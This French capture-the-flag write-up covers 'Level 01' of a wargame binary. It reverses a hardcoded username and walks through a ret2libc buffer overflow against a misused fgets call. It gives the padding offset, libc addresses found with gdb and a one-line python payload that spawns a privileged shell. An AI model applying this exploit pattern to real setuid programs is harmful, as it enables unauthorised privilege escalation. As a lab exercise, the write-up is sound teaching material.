

# Level 01

En vérifiant la liste des symboles disponibles, on trouve:

```text
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
```

On peut voir une fonction `verify_user_name` et une fonction `verify_user_pass`. Regardons ça.

## Username

Dans `verify_user_name`, on trouve:

```
0x08048478 <+20>:	mov    edx,0x804a040
0x0804847d <+25>:	mov    eax,0x80486a8
0x08048482 <+30>:	mov    ecx,0x7
0x08048487 <+35>:	mov    esi,edx
0x08048489 <+37>:	mov    edi,eax
0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

On peut deviner que le nom d'utilisateur est stoqué soit à `0x804a040` ou à `0x80486a8`. Après
avoir vérifié les deux adresses, on trouve que `0x80486a8` pointe vers la chaine `dat_wil`. C'est
notre nom d'utilisateur.

## Password

On pourrait essayer de reverse la fonction de mot de passe (et ça marcherait, il contient la chaine
de caractère `admin`). Cependant, cela ne sert à rien parce le résultat de cette fonction n'est pas
utilisé. Ça donne quelque chose du genre:

```c
int ret = verfiy_user_pass(&buf);
if (ret == 0 || ret != 0) {
    puts("nope");
    return 1;
}
```

Et puis de toute manière, même si la fonction marchait normalement, elle ne nous servirait à rien
parce qu'après ça, le programme s'arrête simplement sans nous donner la suite du sujet.

Il nous faut donc trouver un moyen de s'arranger pour le programme nous lance un shell avec son
niveau de privilège. Pour ça, on peut exploiter une vulnérabilité de la fonctions `fgets`, qui a
été mal protégée.

```c
char buf[64];
fgets(buf, 100, stdin);
```

On voit ici que `fgets` croit écrire dans un buffeur de taille 100, alors qu'en réalité le buffer
n'a une taille que de 64 octets. En concéquence, on peut essayer d'utiliser le fait que cette
fonction écrira trop loin pour écraser d'autres données du programme.

On va écraser l'adresse de retour de notre fonction pour y écrire l'adresse de `system`. Comme
`system` veut en premier paramètre le chemin d'accès vers un program à lancer, l'idée est de lui
donner `/bin/sh`.

Grace à l'outil [Wiremark](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), on peut
facilement déterminer que le buffer atteint l'adresse de retour après 80 octets.



Le but est donc:

- Remplire la stack avec 80 octets random.

- Mettre l'adresse de `system`.

- Remplire la stack avec 4 octets random. C'est l'adresse de retour après que `system` ai terminé.

- Mettre les paramètres pour `system`. C'est là qu'on met l'adresse de `/bin/sh`.

On peut faire un petit script python pour générer l'output correct.

On peut trouver les addresses que l'on souhaite avec `gdb`.

- `find &system,+9999999,"/bin/sh"` donne l'adresse de `/bin/sh`.

- `print &system` donne l'adresse de `system`.

| system     | /bin/sh    |
---------------------------
| 0xf7e6aed0 | 0xf7f897ec |

```sh
(python -c "print 'dat_wil\n' + 'a' * 80 + '\xd0\xae\xe6\xf7' + '0000' + '\xec\x97\xf8\xf7' " ; cat -) | ./level01
```

On peut noter que les octets sont inversé parce que la machine est petit-boutiste.

Avec ça, on exécute le shell avec les permissions du programme, et on a un shell avec les
permissions du niveau suivant.
